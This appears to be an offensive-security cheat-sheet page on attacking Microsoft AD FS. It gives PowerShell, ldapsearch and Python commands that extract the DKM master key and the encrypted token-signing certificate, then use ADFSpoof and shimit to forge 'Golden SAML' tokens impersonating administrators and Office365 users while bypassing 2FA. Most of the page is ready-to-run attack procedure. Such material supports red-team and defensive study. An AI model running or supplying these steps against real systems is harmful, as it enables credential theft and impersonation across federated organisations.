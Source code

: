 # Active Directory - Federation Services

Active Directory Federation Services (AD FS) is a software component developed by Microsoft that provides users with single sign-on (SSO) access to systems and applications located across organizational boundaries. It uses a claims-based access control authorization model to maintain application security and to provide seamless access to web-based applications that are hosted inside or outside the corporate network.


## ADFS - DKM Master Key

* The DKM key is stored in the `thumbnailPhoto` attribute of the AD contact object.

```ps1
$key=(Get-ADObject -filter 'ObjectClass -eq "Contact" -and name -ne "CryptoPolicy"' -SearchBase "CN=ADFS,CN=Microsoft,CN=Program Data,DC=domain,DC=local" -Properties thumbnailPhoto).thumbnailPhoto
[System.BitConverter]::ToString($key)
```


## ADFS - Trust Relationship

Gets the relying party trusts of the Federation Service. 

* Search for `IssuanceAuthorizationRules`
    ```ps1
    Get-AdfsRelyingPartyTrust
    ```


## ADFS - Golden SAML

Golden SAML is a type of attack where an attacker creates a forged SAML (Security Assertion Markup Language) authentication response to impersonate a legitimate user and gain unauthorized access to a service provider. This attack leverages the trust established between the identity provider (IdP) and service provider (SP) in a SAML-based single sign-on (SSO) system. 

* Golden SAML are effective even when 2FA is enabled. 
* The token-signing private key is not renewed automatically
* Changing a user’s password won't affect the generated SAML


**Requirements**:

* ADFS service account
* The private key (PFX with the decryption password)

**Exploitation**:

* Run [mandiant/ADFSDump](https://github.com/mandiant/ADFSDump) on ADFS server as the **ADFS service account**. It will query the Windows Internal Database (WID): `\\.\pipe\MICROSOFT##WID\tsql\query`
* Convert PFX and Private Key to binary format
    ```ps1
    # For the pfx
    echo AAAAAQAAAAAEE[...]Qla6 | base64 -d > EncryptedPfx.bin
    # For the private key
    echo f7404c7f[...]aabd8b | xxd -r -p > dkmKey.bin 
    ```

* Create the Golden SAML using [mandiant/ADFSpoof](https://github.com/mandiant/ADFSpoof), you might need to update the [dependencies](https://github.com/szymex73/ADFSpoof).
    ```ps1
    mkdir ADFSpoofTools
    cd $_
    git clone https://github.com/dmb2168/cryptography.git
    git clone https://github.com/mandiant/ADFSpoof.git 
    virtualenv3 venvADFSSpoof
    source venvADFSSpoof/bin/activate
    pip install lxml
    pip install signxml
    pip uninstall -y cryptography
    cd cryptography
    pip install -e .
    cd ../ADFSpoof
    pip install -r requirements.txt
    python ADFSpoof.py -b EncryptedPfx.bin DkmKey.bin -s adfs.pentest.lab saml2 --endpoint https://www.contoso.com/adfs/ls
    /SamlResponseServlet --nameidformat urn:oasis:names:tc:SAML:2.0:nameid-format:transient --nameid 'PENTEST\administrator' --rpidentifier Supervision --assertions '<Attribute Name="http://schemas.microsoft.com/ws/2008/06/identity/claims/windowsaccountname"><AttributeValue>PENTEST\administrator</AttributeValue></Attribute>'
    ```


**Manual Exploitation**: 

* Retrieve the WID path: `Get-AdfsProperties`
* Retrieve the ADFS Relying Party Trusts: `Get-AdfsRelyingPartyTrust`
* Retrieve the signing certificate, save the `EncryptedPfx` and decode it `base64 -d adfs.b64 > adfs.bin`
    ```powershell
    $cmd.CommandText = "SELECT ServiceSettingsData from AdfsConfigurationV3.IdentityServerPolicy.ServiceSettings"
    $client= New-Object System.Data.SQLClient.SQLConnection($ConnectionString);
    $client.Open();
    $cmd = $client.CreateCommand()
    $cmd.CommandText = "SELECT name FROM sys.databases"
    $reader = $cmd.ExecuteReader()
    $reader.Read() | Out-Null
    $name = $reader.GetString(0)
    $reader.Close()
    Write-Output $name;
    ```
* Retrieve the DKM key stored inside the `thumbnailPhoto` attribute of the Active Directory: 
    ```ps1
    ldapsearch -x -H ldap://DC.domain.local -b "CN=ADFS,CN=Microsoft,CN=Program Data,DC=DOMAIN,DC=LOCAL" -D "adfs-svc-account@domain.local" -W -s sub "(&(objectClass=contact)(!(name=CryptoPolicy)))" thumbnailPhoto
    ```
* Convert the retrieved key to raw format: `echo "RETRIEVED_KEY_HERE" | base64 -d > adfs.key`
* Use [mandiant/ADFSpoof](https://github.com/mandiant/ADFSpoof) to generate the Golden SAML

NOTE: There might be multiple master keys in the container, remember to try them all.


**Golden SAML Examples**

* SAML2: requires `--endpoint`, `--nameidformat`, `--identifier`, `--nameid` and `--assertions` 
    ```ps1
    python ADFSpoof.py -b adfs.bin adfs.key -s adfs.domain.local saml2 --endpoint https://www.contoso.com/adfs/ls
    /SamlResponseServlet --nameidformat urn:oasis:names:tc:SAML:2.0:nameid-format:transient --nameid 'PENTEST\administrator' --rpidentifier Supervision --assertions '<Attribute Name="http://schemas.microsoft.com/ws/2008/06/identity/claims/windowsaccountname"><AttributeValue>PENTEST\administrator</AttributeValue></Attribute>'
    ```

* Office365: requires `--upn` and `--objectguid`
    ```ps1
    python3 ADFSpoof.py -b adfs.bin adfs.key -s sts.domain.local o365 --upn user@domain.local --objectguid 712D7BFAE0EB79842D878B8EEEE239D1
    ```

* Other: connect to the service provider using a known account, analyze the SAML token attributes given and reuse their format.

**NOTE**: Sync the time between the attacker's machine generating the Golden SAML and the ADFS server.


Other interesting tools to exploit AD FS: 

* [secureworks/whiskeysamlandfriends/WhiskeySAML](https://github.com/secureworks/whiskeysamlandfriends/tree/main/whiskeysaml) - Proof of concept for a Golden SAML attack with Remote ADFS Configuration Extraction.
* [cyberark/shimit](https://github.com/cyberark/shimit) - A tool that implements the Golden SAML attack
    ```ps1
    python ./shimit.py -idp http://adfs.domain.local/adfs/services/trust -pk key -c cert.pem -u domain\admin -n admin@domain.com -r ADFS-admin -r ADFS-monitor -id REDACTED
    ```

## References

* [I AM AD FS AND SO CAN YOU - Douglas Bienstock & Austin Baker - Mandiant](https://troopers.de/downloads/troopers19/TROOPERS19_AD_AD_FS.pdf)
* [Active Directory Federation Services (ADFS) Distributed Key Manager (DKM) Keys - Threat Hunter Playbook](https://threathunterplaybook.com/library/windows/adfs_dkm_keys.html)
* [Exploring the Golden SAML Attack Against ADFS - 7 December 2021](https://www.orangecyberdefense.com/global/blog/cloud/exploring-the-golden-saml-attack-against-adfs)
* [Golden SAML: Newly Discovered Attack Technique Forges Authentication to Cloud Apps - Shaked Reiner - 11/21/17](https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps)
* [Meet Silver SAML: Golden SAML in the Cloud - Tomer Nahum and Eric Woodruff - Feb 29, 2024](https://www.semperis.com/blog/meet-silver-saml/)